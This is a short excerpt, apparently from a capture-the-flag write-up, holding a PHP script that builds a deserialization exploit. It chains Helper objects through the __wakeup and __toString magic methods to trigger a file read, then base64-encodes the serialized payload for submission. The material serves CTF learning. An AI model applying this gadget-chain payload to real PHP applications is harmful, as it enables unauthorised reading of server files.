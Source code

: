 ```php
class Helper {
    function __wakeup() {
        echo "Helper wakeup called\n";
        echo $this->msg;
    }

    function __toString() {
        echo "helper to string called\n";
        global $checker;
        $checker = true;
        return (new ReadFileContent($this->msg,"temp"))->check;
    }
}

// Create ReaFileContent object
$readFileContent = new ReadFileContent("nun", "index"); # check property is not CERT to avoid exit in line 9
$readFileContent -> check = "CERT"; # change the check property to CERT, after finishing the constructor

// Create objects
$helper1 = new Helper();
$helper2 = new Helper();
$helper2 -> msg = $readFileContent;
$helper1 -> msg = $helper2;

// // Serialize the object
$serialized = serialize($helper1);
echo base64_encode($serialized) . "\n\n";

// Deserialize the object
$obj = unserialize($serialized); # Deserializing to test our payload, tesing local before on the server

?>
```

- this is the script after editing it to make it easier to understand, make sure you create `index.php` file containing a flag
